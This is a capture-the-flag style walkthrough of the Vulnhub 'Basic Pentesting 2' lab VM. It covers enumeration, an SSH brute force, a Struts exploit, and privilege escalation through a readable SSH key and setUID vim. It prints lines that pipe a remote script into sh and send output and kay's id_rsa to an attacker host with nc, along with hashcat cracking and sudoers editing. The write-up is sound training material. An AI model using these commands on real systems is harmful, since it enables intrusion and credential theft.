*2021-08-23*

*kimm3*

# Walkthrough: Basic Pentesting 2
Platform: Vulnhub

Difficulty: Easy

- [Link](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Setup
Kali and target box running on Virtual Box. Both on the same internal network and kali machine as dhcp server.





## Scans and enumeration
```
export IP=192.168.10.3
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```


| Port/s | App |
| - | - |
| 22 | SSH |
| 80 | HTTP/Apache |
| 139,445 | SMB/Samba |
| 8009 | Apache jserv |
| 8080 | Apache tomcat |

- Hostname: BASIC2
- Domain(SMB): WORKGROUP
- OS: Ubuntu/Linux

### SMB


From the nmap initial scan.

`tools/enum4linux/enum4linux.pl -a $IP | tee scans/e4l-init.txt`



Using enum4linux we find two users, kay and jan.


### HTTP
#### Port 80




Interesting commment at the index page.

`ffuf -u "http://192.168.10.3/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdir.md`



There's the dev section.



```
curl "http://192.168.10.3/development/dev.txt" > foundfiles/dev.txt
curl "http://192.168.10.3/development/j.txt" > foundfiles/j.txt
```



Jan seems to have a weak password, crackable?



Struts = apache java framework, REST version 2.5.12

#### Port 8080
If we get the credentials for the tomcat manager, we can upload a reverse shell - there's tons of examples online.



No valid passwords found.

The Struts example that kay mentions in 'dev.txt' is [vurnelable](https://www.exploit-db.com/exploits/42627) and there's a msf module for it. See [Exploit 2](#exploit-2).

### SSH
Knowing that the user 'jan' probably has a weak password. It might be worth to try to brute force it.

## Get a foothold
There's two easy ways to get a foothold.
1. Brute force jans ssh
2. Exploit the STRUTS/REST showcase with msf

## Foothold 1
**Brute-forcing SSH with user jan**

`hydra $IP -f -t 4 -l jan -P sl/Passwords/Leaked-Databases/rockyou.txt ssh | tee scans/hydra-jan-ssh.txt`



Score. Now it's just to log in as jan via ssh.

## Foothold 2
**STRUTS/REST and msf**



I had to modify the TARGETURI to match the correct version.

## Further enumeration

Check for privilige escalation possibilities. Example is as user jan but could be done with tomcat user.

`curl "http://192.168.10.1/linpeas.sh" | sh | nc 192.168.10.1 1234`

Set up a http server and listener accordingly.



The user kay home folder seems to be readable.



Vim has the setUID bit set. Wonderful.

## Privesc possibilities
1. Using contents of `/home/kay`
2. Using vim to edit config files like `/etc/sudoers`

## Privilege escalation 1
**With contents of kays home folder**

The pass.bak wasn't readable but the id_rsa was.

```
nc -w 3 192.168.10.1 1234 < .ssh/id_rsa
```



The private key of user kay requires a passphrase, lets try to crack it. I had to download the latest release from hashcats github to make it work.

```
tools/ssh2john.py foundfiles/id_rsa
cd tools/hashcat-6.2.3/
./hashcat.bin -a 0 -m 22931 ~/machines/vh/basic-pentesting-2/creds/kay_idrsa-priv_hash ~/SecLists/Passwords/Leaked-Databases/rockyou.txt
```





We can now read and send over the 'pass.bak' file.



The file contains the password for kay, and the user has full sudo privs.



## Privilege escalation 2
**Using vim with setUID**

`vim.basic /etc/sudoers`



Save with `:w!` to override readonly.



It works.

## Post Exploitation
**Password hashes**

The password for kay would be hard to crack wit public wordlists, run it once through hashcat to add the hash/password to your potfile.

`hashcat -a 0 -m 1800 creds/kayhash creds/pass.txt`

**Tomcat mgr password**

Lets find the tomcat manager password that we didn't crack.

```
find / -iname "tomcat*" # Find tomcat install location
cat /opt/apache-tomcat-9.0.7/conf/tomcat-users.xml # View users file.
```



And there's the credentials.



Success, we can now use a .WAR payload to get remote command execution, tutorials are all over the Internet.
